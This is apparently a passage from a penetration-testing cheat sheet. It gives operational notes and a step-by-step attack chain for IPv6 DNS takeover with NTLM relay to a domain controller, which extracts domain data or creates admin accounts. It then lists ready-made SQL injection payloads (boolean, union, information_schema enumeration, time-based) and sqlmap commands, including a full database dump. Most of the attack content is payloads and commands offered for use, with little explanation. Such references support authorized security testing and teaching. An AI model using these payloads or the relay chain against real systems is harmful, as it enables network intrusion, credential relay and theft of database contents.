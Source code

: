 OPERATIONAL NOTES:
- Only run in 5-10 minute intervals
- Can cause network disruption if left running
- Monitor for authentication events
- Check lootme directory for extracted data
- Watch for new admin account creation

ATTACK CHAIN:
1. Attacker machine becomes IPv6 DNS server
2. Victim requests IPv6 DNS
3. Attacker provides malicious WPAD config
4. Victim authenticates via NTLM
5. Authentication relayed to DC via LDAP
6. Domain data extracted or account created

BEST PRACTICES:
- Test impact before full deployment
- Document all created accounts
- Monitor network stability
- Have backup attack paths ready
- Clean up artifacts after testing

### Web Application Attacks

#### SQL Injection
Prerequisites:
- Injectable parameter identified
- Database error messages (optional)

Manual Testing:
```sql
-- Basic Tests
' OR '1'='1
" OR "1"="1
1 OR 1=1

-- Union Based
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables--

-- Blind Boolean
' AND 1=1--
' AND 1=2--

-- Time Based
' AND (SELECT SLEEP(5))--
' AND IF(1=1,SLEEP(5),0)--
```

Automated Testing:
```bash
# Basic SQLMap
sqlmap -u "http://target/page.php?id=1" --batch

# With request file
sqlmap -r request.txt --batch --random-agent

# Database dump
sqlmap -u "http://target/page.php?id=1" --batch --dump
```
